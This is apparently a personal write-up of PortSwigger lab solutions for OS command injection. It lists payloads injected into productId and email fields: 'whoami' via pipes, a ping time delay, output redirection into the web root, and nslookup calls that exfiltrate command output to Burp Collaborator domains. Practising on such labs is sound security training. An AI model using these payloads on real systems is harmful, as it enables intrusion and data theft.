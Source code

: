 ```yaml
---
title: Comand Injection practice PortSwigger Labs
date: 2023-1-25 00:18:00 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [Web Hacking]
---
```


## Lab: OS command injection, simple case

```shell
 We simply have to add | whoami after productId since it does not filter user input. 
```

## Lab: Blind OS command injection with time delays

```shell
||ping+-c+10+127.0.0.1||
 We add it after the email field to concatenate it and cause a 10s delay.
```

## Lab: Blind OS command injection with output redirection

```shell
 Exploitable email field:
|||whoami+>+/var/www/images/test.txt|||
 we use /var/www/images/ since we know it's vulnerable
 Once we concatenate and send that command, we go to the page, enter any product, intercept the request and when we see:
GET /image?filename=26.jpg # In the request, we change 26.jpg to the .txt file (test.txt in my case).
```

## Lab: Blind OS command injection with out-of-band interaction

```shell
|||nslookup+5tzgk7i5ksx0e2hgdyiii4mreik88x.oastify.com|||
Concatenate our burp collaborator domain to the email field of the feedback.
We can also execute commands and have their result redirected to our domain. For example:
& nslookup `whoami`. "domain.." &
```

## Lab: Blind OS command injection with out-of-band data exfiltration
```shell
 Concatenate the following to the email field: 
||nslookup+``whoami`.3koeb593bqoy508e4e4w9g92dp5gbcz1.oastify.com|||
```

